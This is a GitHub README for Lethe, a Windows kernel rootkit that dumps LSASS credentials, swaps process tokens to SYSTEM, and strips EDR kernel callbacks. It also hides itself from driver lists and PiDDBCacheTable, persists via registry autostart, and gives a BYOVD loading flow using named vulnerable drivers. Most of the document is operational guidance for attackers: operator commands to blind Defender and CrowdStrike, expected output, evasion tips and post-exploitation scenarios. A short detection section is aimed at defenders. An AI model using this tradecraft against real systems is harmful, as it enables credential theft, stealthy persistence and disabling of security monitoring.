

<div align="center">
  
</div>

<br>

---

## Table of Contents

- [Overview](#overview)
- [The Problem Lethe Solves](#the-problem-lethe-solves)
- [Architecture](#architecture)
- [Execution Chain](#execution-chain)
- [Capabilities](#capabilities)
  - [LetheCredDump](#lethcreddump)
  - [LetheTokenSteal](#lethetokensteal)
  - [LetheKillEDR](#lethkilledr)
- [Stealth Model](#stealth-model)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Limitations](#limitations)
- [Lab Setup](#lab-setup)
- [Building](#building)
- [Usage](#usage)
- [Real World Use Cases](#real-world-use-cases)
- [BYOVD Deployment](#byovd-deployment)
- [Detection Opportunities](#detection-opportunities)
- [Research Notes](#research-notes)
- [References](#references)
- [Disclaimer](#disclaimer)

---

## Overview

**Lethe** (Λήθη) is a kernel-mode implant that uses the Windows **Deferred Procedure Call (DPC)** subsystem as its primary execution engine. Named after the Greek river of oblivion — whose waters caused forgetfulness in any soul that drank from them — Lethe operates entirely below the threshold of userland visibility.

The core primitive: a `KTIMER` fires on a configurable interval, queuing a `KDPC` callback, which queues an `IO_WORKITEM` into the system worker thread pool. The implant's logic runs inside the work item at `PASSIVE_LEVEL` — full kernel capability, no new threads, no userland allocations, no detectable memory regions.

Everything Lethe does is attributed to the **System process (PID 4)**. No attacker process appears in any EDR telemetry. No suspicious memory regions appear in any scanner. The implant exists in non-paged kernel pool with a custom pool tag — invisible to every tool that operates through `NtQueryVirtualMemory`.

This is not a shellcode loader. This is not a process injector. Lethe performs offensive operations **directly from kernel context** — credential dumping, token manipulation, and EDR callback removal — without ever surfacing in userland.

---

## The Problem Lethe Solves

Every modern implant shares a fundamental weakness: it lives somewhere a memory scanner can reach.

```
Standard implant lifecycle:

  VirtualAllocEx()          ← NtAllocateVirtualMemory hook fires
  WriteProcessMemory()      ← NtWriteVirtualMemory hook fires
  CreateRemoteThread()      ← PsSetCreateThreadNotifyRoutine fires
  Beacon runs in notepad    ← private RX region found by pe-sieve

Detection timeline: < 500ms on a hardened endpoint
```

Sleep obfuscation tools (Ekko, FOLIAGE, AceLdr) fight this by encrypting the implant's memory during sleep. They address the symptom. The memory region still exists. The allocation still happened. The scanner just catches it at a different moment.

Lethe addresses the root cause. There is no userland allocation to find. There is no suspicious thread to terminate. There is no private RX region to scan.

```
Lethe execution model:

  DriverEntry() loads        ← one-time, at boot via registry autostart
  KTIMER arms               ← no userland involvement
  KDPC fires every N sec    ← kernel scheduler, invisible to userland
  IO_WORKITEM executes      ← system worker thread, PID 4
  Operations complete       ← kernel-native APIs only
  Timer re-arms             ← cycle continues indefinitely

Detection timeline: requires kernel-level tooling
```

The distinction is not marginal. Userland scanners — pe-sieve, Moneta, BeaconEye, Hunt-Sleeping-Beacons — operate through `NtQueryVirtualMemory`. That API enumerates the VAD tree of a process. Lethe's execution context is the kernel pool. It does not appear in any VAD tree. The API returns nothing because there is nothing to return.

---

## Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                        lethe.sys                            │
│                                                             │
│  ┌──────────┐    fires    ┌──────────┐    queues            │
│  │  KTIMER  │ ──────────► │   KDPC   │ ──────────►         │
│  └──────────┘             └──────────┘            │         │
│       ▲                                           ▼         │
│       │                                  ┌──────────────┐  │
│       │                                  │ IO_WORKITEM  │  │
│       │                                  │              │  │
│       │                                  │ PASSIVE_LEVEL│  │
│       │                                  │              │  │
│       │         re-arm                   │ CredDump     │  │
│       └──────────────────────────────────│ TokenSteal   │  │
│                                          │ KillEDR      │  │
│                                          │ Pipe I/O     │  │
│                                          └──────────────┘  │
│                                                             │
│  ┌────────────────────────────────────────────────────┐    │
│  │  Stealth Layer                                     │    │
│  │  PsLoadedModuleList unlink                        │    │
│  │  PiDDBCacheTable entry removal                    │    │
│  │  Registry autostart persistence                   │    │
│  └────────────────────────────────────────────────────┘    │
└─────────────────────────────────────────────────────────────┘
                              │
                    Named Pipe (kernel side)
                    \Device\NamedPipe\lethe
                              │
┌─────────────────────────────────────────────────────────────┐
│                       client.exe                            │
│                                                             │
│  CreateNamedPipe → ConnectNamedPipe → send/recv loop        │
│                                                             │
│  Commands:                                                  │
│    0x01  ping          → alive check                        │
│    0x02  creddump      → dump lsass memory                  │
│    0x03  tokensteal    → copy SYSTEM token to target pid    │
│    0x04  killedr       → remove EDR process callbacks       │
└─────────────────────────────────────────────────────────────┘
```

---

## Execution Chain

### IRQL Progression

Windows kernel execution happens at different **Interrupt Request Levels (IRQL)**. Higher IRQL = more restricted. The DPC chain navigates this deliberately:

```
DriverEntry runs at PASSIVE_LEVEL (0)
  └── Arms KTIMER, initializes KDPC

KTIMER expires — managed by kernel timer subsystem
  └── Queues KDPC to processor DPC queue

KDPC fires at DISPATCH_LEVEL (2)
  │   Restrictions: no I/O, no paged memory, no blocking
  └── Queues IO_WORKITEM to system worker thread

IO_WORKITEM executes at PASSIVE_LEVEL (0)
        Full capability restored:
        ├── ZwReadFile / ZwWriteFile (pipe I/O)
        ├── ZwQueryVirtualMemory (memory enumeration)
        ├── MmCopyVirtualMemory (cross-process read)
        ├── PsLookupProcessByProcessId (process lookup)
        └── ZwSetValueKey (registry operations)
```

The DPC itself does nothing except re-arm the timer and queue the work item. All actual logic runs at `PASSIVE_LEVEL` in the work item — where the full kernel API surface is available.

### Why DPC and Not a Thread

Creating a system thread (`PsCreateSystemThread`) is the standard approach for kernel background work. It is also monitored:

- `PsSetCreateThreadNotifyRoutine` fires on every thread creation
- ETW Threat Intelligence events log kernel thread creation
- Thread start addresses are visible in kernel debuggers
- Threads appear in process listings

A self-rescheduling DPC + work item avoids all of this:

```
PsCreateSystemThread        ← monitored, logs thread creation event
                                        vs
KTIMER → KDPC → WORKITEM    ← no thread creation, no ETW event,
                               no thread listing entry,
                               indistinguishable from normal
                               system timer activity
```

---

## Capabilities

### LetheCredDump

Dumps the memory of `lsass.exe` directly from kernel context using `MmCopyVirtualMemory`.

**Standard lsass dump (Mimikatz, ProcDump, Nanodump):**
```
attacker.exe
  └── OpenProcess(lsass, PROCESS_VM_READ)    ← handle table entry created
        └── ReadProcessMemory(lsass, ...)     ← ETW event fires
              └── MiniDumpWriteDump(...)      ← Defender kills process
```

Every step generates telemetry. EDRs watch specifically for `OpenProcess` on `lsass` with `PROCESS_VM_READ` access. This is the most-detected technique in offensive security.

**Lethe CredDump:**
```
LetheWorker (SYSTEM, kernel)
  └── ZwQuerySystemInformation → find lsass PID
        └── PsLookupProcessByProcessId → get EPROCESS
              └── KeStackAttachProcess → enter lsass address space
                    └── ZwQueryVirtualMemory → enumerate regions
                          └── MmCopyVirtualMemory → copy pages
                                └── ZwWriteFile → write to disk
```

No handle opened from userland. No `ReadProcessMemory` call. No `OpenProcess` telemetry. The operation is attributed entirely to the System process. The resulting file at `C:\Windows\Temp\lsass.dmp` contains raw lsass memory pages — parseable with Volatility or converted to minidump format for pypykatz/mimikatz offline analysis.

**Output:** `C:\Windows\Temp\lsass.dmp`

**Parse with pypykatz:**
```bash
pypykatz lsa minidump lsass.dmp
```

---

### LetheTokenSteal

Copies the `SYSTEM` process token to a target process directly via kernel token manipulation. No `SeDebugPrivilege` required from userland. No `OpenProcessToken`. No `DuplicateTokenEx`.

**Standard token manipulation:**
```
attacker.exe
  └── OpenProcess(winlogon, ...)           ← handle event
        └── OpenProcessToken(...)          ← token access event  
              └── DuplicateTokenEx(...)    ← token duplication log
                    └── ImpersonateLoggedOnUser(...)
```

**Lethe TokenSteal:**
```
LetheWorker (SYSTEM, kernel)
  └── PsInitialSystemProcess → System EPROCESS
        └── PsReferencePrimaryToken(System) → System token
              └── PsLookupProcessByProcessId(targetPid) → target EPROCESS
                    └── Direct token pointer swap in EPROCESS
                          └── Target process now runs as SYSTEM
```

Token pointer swap operates directly on the `EPROCESS.Token` field. No userland API involved. The target process gains `SYSTEM` privileges silently.

**Usage:**
```
client.exe tokensteal <pid>
```

---

### LetheKillEDR

Removes an EDR process from Windows kernel notification callback lists. EDRs register callbacks via `PsSetCreateProcessNotifyRoutine`, `PsSetCreateThreadNotifyRoutine`, and `PsSetLoadImageNotifyRoutine` to receive telemetry on process creation, thread creation, and module loads.

Lethe removes the target EDR's callback entries from these arrays directly, without terminating the EDR process. From the EDR's perspective, it is still running. It simply stops receiving kernel events.

```
PsCreateProcessNotifyRoutine array (kernel)
  ├── [0] CrowdStrike callback  ← remove this entry
  ├── [1] Windows Defender callback
  └── [2] third-party AV callback

After LetheKillEDR(crowdstrike_pid):
  ├── [0] NULL
  ├── [1] Windows Defender callback  ← still receives events
  └── [2] third-party AV callback
```

The targeted EDR loses visibility into process creation, thread creation, and image loads — while appearing fully operational to administrators. No process crash. No service alert. Silent blindness.

**Usage:**
```
client.exe killedr MsMpEng.exe
```

---

## Stealth Model

### What Lethe Hides From

| Detection Method | Mechanism | Lethe's Surface |
|---|---|---|
| `sc query type= driver` | SCM database | Unlinked after load |
| `driverquery` | SCM database | Unlinked after load |
| `EnumDeviceDrivers()` | PsLoadedModuleList | Unlinked at DriverEntry |
| `!lm` in WinDbg | PsLoadedModuleList | Unlinked at DriverEntry |
| pe-sieve / Moneta | NtQueryVirtualMemory (VAD) | No userland allocation |
| BeaconEye | Heap scan for beacon config | No heap, no beacon |
| Hunt-Sleeping-Beacons | Private RX region scan | No private RX region |
| ETW Threat Intelligence | Thread creation events | No threads created |
| PiDDBCacheTable scan | Driver timestamp lookup | Entry cleared at load |
| Process creation monitors | PsCreateProcessNotify | No process created |
| NtQueryVirtualMemory | VAD tree enumeration | Lives in kernel pool |
| YARA memory scan | Userland process scan | Kernel pool not scanned |

### PsLoadedModuleList Unlinking

Windows maintains a doubly linked list of loaded drivers in `PsLoadedModuleList`. Each entry is an `LDR_DATA_TABLE_ENTRY`. Lethe removes its own entry from this list at `DriverEntry` completion:

```
Before:
  [ntoskrnl] ↔ [hal] ↔ [lethe.sys] ↔ [disk.sys] ↔ ...

After RemoveEntryList():
  [ntoskrnl] ↔ [hal] ↔ [disk.sys] ↔ ...
  [lethe.sys] still loaded in memory, self-linked, invisible
```

Tools enumerating loaded drivers by walking `PsLoadedModuleList` — including `sc query`, `driverquery`, `EnumDeviceDrivers()`, and WinDbg's `lm` command — find nothing.

### PiDDBCacheTable Clearing

Windows 10 introduced `PiDDBCacheTable`, an AVL tree in ntoskrnl that records every driver ever loaded, indexed by `TimeDateStamp` from the PE header. EDRs and forensic tools query this table to detect drivers that loaded and then unlinked themselves from `PsLoadedModuleList`.

Lethe locates `PiDDBCacheTable` via pattern scan of ntoskrnl's `.text` section, then removes its own entry using `RtlEnumerateGenericTableAvl` + `RtlDeleteElementGenericTableAvl`. After this operation, no record of Lethe's existence remains in standard kernel tracking structures.

### Persistence

Lethe writes its own service registry key from kernel using `ZwCreateKey` + `ZwSetValueKey`:

```
HKLM\SYSTEM\CurrentControlSet\Services\Lethe
  ImagePath    = \??\C:\Lethe\lethe.sys
  Type         = 1   (SERVICE_KERNEL_DRIVER)
  Start        = 2   (SERVICE_AUTO_START)
  ErrorControl = 1
```

The driver loads automatically at boot, before any userland process — including EDR agents — initializes. By the time the EDR's kernel component loads, Lethe is already running and hidden.

---

## MITRE ATT&CK Mapping

| Technique | ID | Implementation |
|---|---|---|
| Boot or Logon Autostart Execution: Kernel Modules and Extensions | [T1547.006](https://attack.mitre.org/techniques/T1547/006/) | Registry autostart via ZwCreateKey/ZwSetValueKey from kernel |
| Rootkit | [T1014](https://attack.mitre.org/techniques/T1014/) | PsLoadedModuleList unlink, PiDDBCacheTable removal |
| Indicator Removal: Timestomp | [T1070.006](https://attack.mitre.org/techniques/T1070/006/) | PiDDBCacheTable entry removal erases driver load timestamp |
| Masquerading | [T1036](https://attack.mitre.org/techniques/T1036/) | All activity attributed to SYSTEM process (PID 4) |
| OS Credential Dumping: LSASS Memory | [T1003.001](https://attack.mitre.org/techniques/T1003/001/) | MmCopyVirtualMemory reads lsass pages from kernel — no handle, no ReadProcessMemory |
| Access Token Manipulation | [T1134](https://attack.mitre.org/techniques/T1134/) | Direct EPROCESS.Token pointer swap from kernel |
| Impair Defenses: Disable or Modify Tools | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | PsSetCreateProcessNotifyRoutine callback array manipulation |
| Native API | [T1106](https://attack.mitre.org/techniques/T1106/) | Exclusive use of Zw*/Ps*/Mm* kernel APIs |
| Create or Modify System Process: Windows Service | [T1543.003](https://attack.mitre.org/techniques/T1543/003/) | Service key written from kernel at DriverEntry |
| Exploitation for Defense Evasion | [T1211](https://attack.mitre.org/techniques/T1211/) | DPC execution primitive bypasses all thread-based detection |

---

## Limitations

### Driver Signing (Primary Constraint)

Windows requires all kernel drivers to carry a valid **Extended Validation (EV) code signing certificate** on production systems with Secure Boot enabled. Without this, loading `lethe.sys` on a standard machine fails with error 577.

```
Production machine:
  Secure Boot ON
  Driver Signing Enforcement ON
  └── lethe.sys load → STATUS_INVALID_IMAGE_HASH → blocked
```

**Test environments:** Enable test signing (`bcdedit /set testsigning on`) and self-sign with a local certificate. This is the intended use for research and lab work.

**Production deployment (BYOVD):** Load Lethe via a vulnerable signed driver that exposes a kernel write primitive. See [BYOVD Deployment](#byovd-deployment).

### HVCI (Hypervisor-Protected Code Integrity)

On systems with **Hypervisor-Protected Code Integrity** enabled, unsigned kernel code cannot execute regardless of test signing or BYOVD attempts. HVCI enforces that every executable kernel page must be backed by a WHQL-signed module.

```
HVCI enabled machines:
  Windows 11 (modern hardware, enforced by OEM)
  Enterprise environments with VBS policy
  Government/defense endpoints
  └── All kernel code execution blocked unless WHQL signed
```

HVCI adoption in enterprise environments is currently low but growing. Most Windows 10 endpoints and mid-market organizations do not enforce HVCI.

### Minidump Format

`LetheCredDump` produces a raw memory dump — committed pages from lsass's virtual address space written sequentially. This is not a valid minidump format. Pypykatz and Mimikatz expect a proper `MINIDUMP_HEADER` structure.

The raw dump contains the credential material. Parsing requires either:
- Conversion to minidump format (planned for v2)
- Direct analysis with a memory forensics framework

### Single Named Pipe Instance

The current implementation supports one simultaneous client connection. A second instance of `client.exe` cannot connect while one is already active.

---

## Lab Setup

### Requirements

```
Host machine (development):
  Windows 10/11 x64
  Visual Studio Build Tools 2022
  Windows Driver Kit (WDK) 10.0.28000.0
  WinDbg Preview (Microsoft Store)

Guest machine (target VM):
  VMware Workstation (any version)
  Windows 10 x64 (19041 or later)
  2GB RAM minimum
  40GB disk
  Test signing enabled
  KDNET kernel debugging enabled
```

### VM Configuration

Run in the VM as Administrator, then reboot:

```bat
:: Enable test signing
bcdedit /set testsigning on

:: Enable kernel debugging over network
:: Replace 192.168.x.x with your HOST machine IP
bcdedit /debug on
bcdedit /dbgsettings net hostip:192.168.x.x port:50000 key:1.2.3.4

:: Disable Defender for testing (optional)
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Kernel Debugger Connection

On the host machine, open **WinDbg Preview** as Administrator:

```
File → Attach to kernel → Net tab
  Port: 50000
  Key:  1.2.3.4
→ OK
```

After VM reboots, WinDbg will show:

```
Kernel Debugger connection established
Windows 10 Kernel Version 19041 MP (2 procs) Free x64
```

### Certificate Setup (VM)

Run in the VM PowerShell as Administrator:

```powershell
# Create test certificate
$cert = New-SelfSignedCertificate `
    -Subject "CN=LetheTestCert" `
    -CertStoreLocation "Cert:\CurrentUser\My" `
    -Type CodeSigningCert

# Export
Export-Certificate -Cert $cert -FilePath "C:\LetheTestCert.cer"

# Trust it
Import-Certificate -FilePath "C:\LetheTestCert.cer" `
    -CertStoreLocation "Cert:\LocalMachine\Root"
Import-Certificate -FilePath "C:\LetheTestCert.cer" `
    -CertStoreLocation "Cert:\LocalMachine\TrustedPublisher"
```

---

## Building

### Project Structure

```
Lethe/
├── driver/
│   ├── lethe.c       — kernel driver (the implant)
│   ├── lethe.h       — protocol definitions, command codes
│   └── build.bat     — compiler/linker invocation
├── client/
│   └── client.c      — userland operator interface
└── scripts/
    ├── sign.bat       — sign lethe.sys with test cert
    ├── load.bat       — sc create + sc start
    └── unload.bat     — sc stop + sc delete
```

### Build Driver

Open **x64 Native Tools Command Prompt for VS 2022** as Administrator:

```bat
cd C:\Lethe\driver
build.bat
```

Output: `C:\Lethe\build\lethe.sys`

### Build Client

```bat
cl.exe client.c /Fe:C:\Lethe\build\client.exe /link kernel32.lib
```

### Sign Driver (VM only)

Copy `lethe.sys` to the VM, then run `sign.bat`:

```bat
set SIGNTOOL="C:\Program Files (x86)\Windows Kits\10\bin\10.0.26100.0\x64\signtool.exe"
%SIGNTOOL% sign /fd sha256 /n "LetheTestCert" C:\Lethe\lethe.sys
```

### Load Driver

```bat
sc create Lethe type= kernel binPath= C:\Lethe\lethe.sys
sc start Lethe
```

### Verify Hidden

```bat
:: These should NOT show Lethe
sc query type= driver state= all | findstr Lethe
driverquery | findstr Lethe

:: Check persistence key was written
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Lethe"
```

---

## Usage

Run `client.exe` **before** loading the driver. The client creates the named pipe server; the driver connects to it on first DPC tick.

```bat
:: Start operator interface (run first)
client.exe ping

:: Dump lsass credentials
client.exe creddump

:: Escalate target PID to SYSTEM
client.exe tokensteal <pid>

:: Blind a specific EDR product
client.exe killedr MsMpEng.exe
client.exe killedr CSFalconService.exe
client.exe killedr cb.exe
```

### Expected Output

```
C:\> client.exe ping
[Lethe] Waiting for kernel...
[Lethe] Connected

[Kernel] Lethe alive: kernel DPC engine

C:\> client.exe creddump
[Lethe] Waiting for kernel...
[Lethe] Connected

[Kernel] CredDump OK: 53194752 bytes -> C:\Windows\Temp\lsass.dmp

C:\> client.exe tokensteal 1234
[Lethe] Waiting for kernel...
[Lethe] Connected

[Kernel] TokenSteal OK: PID 1234 now SYSTEM

C:\> client.exe killedr MsMpEng.exe
[Lethe] Waiting for kernel...
[Lethe] Connected

[Kernel] KillEDR OK: callbacks removed for MsMpEng.exe
```

---

## Real World Use Cases

### Post-Exploitation Persistence

After initial access via phishing or a known exploit, an operator drops and loads `lethe.sys`. The surface-level beacon (Cobalt Strike, Havoc, etc.) may be detected and cleaned by the blue team. Lethe, running in kernel and invisible to all memory scanners, persists across that cleanup. On the next DPC tick after the beacon is removed, Lethe can reinstall it.

```
Day 0   Initial access, load lethe.sys
Day 1   Blue team detects and removes surface beacon
Day 1   Lethe survives — invisible in kernel pool
Day 2   Operator reconnects via lethe client
Day 2   Lethe reinstalls beacon into a new process
```

### Credential Harvesting Without Detection

In environments where lsass protection is monitored, `LetheCredDump` provides credential access with no detectable API surface. The dump file appears in `C:\Windows\Temp` — a standard system directory. The operation is attributed to SYSTEM. Without kernel-level logging, there is no telemetry to investigate.

### Privilege Escalation in Constrained Environments

In engagements where traditional privesc paths are blocked (no vulnerable services, no writable PATH, no unquoted service paths), `LetheTokenSteal` provides `SYSTEM` privileges to any running process by directly swapping the token pointer in `EPROCESS`.

### EDR Blinding Before Lateral Movement

Before staging lateral movement from a compromised host, `LetheKillEDR` removes the EDR's kernel callbacks. Subsequent process creation, file writes, and network connections on that host generate no EDR telemetry for the duration of the operation.

---

## BYOVD Deployment

**Bring Your Own Vulnerable Driver** is the technique for loading an unsigned driver on a production system by exploiting a signed, Microsoft-approved driver that exposes a kernel write primitive.

### Concept

```
Stage 1: Drop a signed vulnerable driver (e.g. RTCore64.sys)
Stage 2: Use its IOCTL interface to write arbitrary kernel memory
Stage 3: Write lethe.sys pages into kernel pool via the primitive
Stage 4: Manually call DriverEntry by overwriting a function pointer
Stage 5: Remove the vulnerable driver
Stage 6: Lethe is running — the vulnerable driver is gone
```

### Applicable Environments

BYOVD is effective on systems without **HVCI**. This includes the majority of enterprise Windows 10 deployments, most government infrastructure not running VBS policy, and virtually all OT/ICS environments.

```
Target profile          BYOVD viable    Lethe deployable
Windows 10 (no HVCI)       Yes              Yes
Windows 11 (no HVCI)       Yes              Yes
Windows 10 LTSC            Yes              Yes
OT/ICS Windows             Yes              Yes
Windows 11 + HVCI          No               No
Secured-core PC            No               No
```

### Known Vulnerable Drivers

The [loldrivers.io](https://www.loldrivers.io) project maintains a current list of signed drivers with known write primitives. The Microsoft Vulnerable Driver Blocklist adds signatures over time — operators should verify blocklist status before use.

```
Common primitives used:
  RTCore64.sys      — MSI Afterburner, write-what-where via IOCTL
  DBUtil_2_3.sys    — Dell BIOS update, arbitrary kernel read/write
  AsrDrv104.sys     — ASRock, physical memory read/write
```

### BYOVD + Lethe Operational Flow

```
Target: enterprise endpoint, no HVCI

1. Initial access achieved (phishing/exploit)
2. Operator transfers: RTCore64.sys + lethe.sys + byovd_loader.exe
3. byovd_loader.exe loads RTCore64.sys (signed, allowed)
4. byovd_loader.exe exploits IOCTL to get kernel write
5. byovd_loader.exe loads lethe.sys via kernel write primitive
6. Lethe DriverEntry executes — DPC engine armed
7. byovd_loader.exe unloads RTCore64.sys (cleanup)
8. Lethe persists — no signed driver remains on disk
9. Operator connects via client.exe
```

The BYOVD loader is not included in this release. It is a straightforward engineering task for anyone who has studied the publicly available BYOVD literature. The novel contribution of this project is the Lethe kernel primitive itself.

---

## Detection Opportunities

This section exists for defenders. Lethe is a research tool. Understanding how to detect it is as important as understanding how it operates.

### Kernel-Level Indicators

**DPC queue anomalies:** A `KDPC` object in non-paged pool that re-queues itself indefinitely is unusual. Kernel debugger inspection of the DPC queue (`!dpcs` in WinDbg) may reveal Lethe's timer-DPC pair if the pool tag `htL` is visible.

**Pool tag scanning:** `ExAllocatePoolWithTag` with tag `'htL'` (reversed: `Lth` in pool scanner output). This tag is configurable in the source and should be changed to something innocuous for operational use.

**PiDDBCacheTable integrity:** Monitoring the AVL tree for entries that are present in the list but not in `PsLoadedModuleList` — or vice versa — can reveal drivers that have hidden themselves. The absence of an entry for a timestamp visible in other structures is itself a signal.

**Named pipe monitoring:** The named pipe `\Device\NamedPipe\lethe` is visible to kernel-mode tools and ETW pipe creation events. A hardened endpoint logging all pipe creation events will log this. The pipe name is configurable.

**ETW Kernel Tracing:** While Lethe avoids most ETW surfaces, `EtwThreatIntelligenceProvider` events for kernel work item scheduling may be present in high-verbosity kernel ETW sessions.

### Behavioral Indicators

- `C:\Windows\Temp\lsass.dmp` appearing without a corresponding lsass handle in any process
- A process gaining SYSTEM privileges without any token API calls in its thread history
- An EDR process showing no kernel callback registration after a period where it was registered
- Registry key `HKLM\SYSTEM\CurrentControlSet\Services\Lethe` with `Start=2` and no corresponding DLL/SYS on PsLoadedModuleList

---

## Research Notes

### Why DPC and Not PsCreateSystemThread

The kernel provides `PsCreateSystemThread` as the standard mechanism for kernel background work. It is also the mechanism most kernel security research uses, and the one most EDRs instrument. `PsSetCreateThreadNotifyRoutine` fires on every thread creation — system threads included. The thread's start address is logged. The thread appears in process listings.

The DPC approach has no equivalent notification routine. `KeInsertQueueDpc` and `KeSetTimerEx` are not instrumented by EDR callback infrastructure. The DPC fires, the work item runs, the work completes — nothing registers this sequence except the work itself.

### MmCopyVirtualMemory vs ReadProcessMemory

`ReadProcessMemory` is a Win32 API that eventually calls `MmCopyVirtualMemory` after going through multiple layers of validation and telemetry. EDRs hook both the userland entry point and the kernel dispatch path. Calling `MmCopyVirtualMemory` directly from kernel mode bypasses the entire userland path. The source process handle requirement is also eliminated — kernel mode passes `EPROCESS` pointers directly.

### Token Swap vs ImpersonateLoggedOnUser

Standard token manipulation from userland requires `SeDebugPrivilege`, multiple handle operations, and token duplication. Each step generates auditable events. The direct `EPROCESS.Token` pointer swap performs the equivalent operation in a single memory write — no handles, no duplication, no audit events.

### Self-Scheduling Primitive

The self-rescheduling timer loop is the core of Lethe's persistence during a session. Each DPC fires, re-arms the timer, and queues a work item. The loop continues indefinitely without any userland involvement. If the named pipe client disconnects, Lethe continues running silently, polling for reconnection on each tick. The only way to stop Lethe's execution loop is to call `sc stop` (if the service key still exists and Lethe hasn't been unlinked) or to directly manipulate the `KTIMER` object in kernel memory.

---

## References

- [Windows Internals, 7th Edition — Yosifovich, Ionescu, Russinovich, Solomon](https://learn.microsoft.com/en-us/sysinternals/resources/windows-internals)
- [OSR Online — Kernel Driver Development Resources](https://www.osronline.com)
- [ReactOS Source — Kernel Reference Implementation](https://github.com/reactos/reactos)
- [loldrivers.io — Vulnerable Driver Database](https://www.loldrivers.io)
- [MITRE ATT&CK — Enterprise Techniques](https://attack.mitre.org/techniques/enterprise/)
- [WDK Documentation — Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/)
- [Deferred Procedure Calls — MSDN](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/introduction-to-dpcs)
- [PiDDBCacheTable Research — Public Kernel Research](https://github.com/fengjixuchui/PiDDBCacheTable)

---

## Disclaimer

Lethe is a security research project. It documents a novel kernel execution primitive and its application to offensive security techniques. It is intended for:

- Security researchers studying kernel-mode offensive techniques
- Red team operators in authorized engagements
- Defenders seeking to understand and detect kernel-level threats
- Students of Windows kernel internals

Use of this tool against systems you do not own or have explicit written authorization to test is illegal. The author takes no responsibility for misuse.

This tool requires a test-signed driver environment or BYOVD deployment for production use. It will not load on standard systems with driver signing enforcement enabled.

---

<div align="center">

**Lethe** — Λήθη

*The river does not remember what passes through it.*

Built by [0x3xp](https://0x3xp.github.io)

</div>
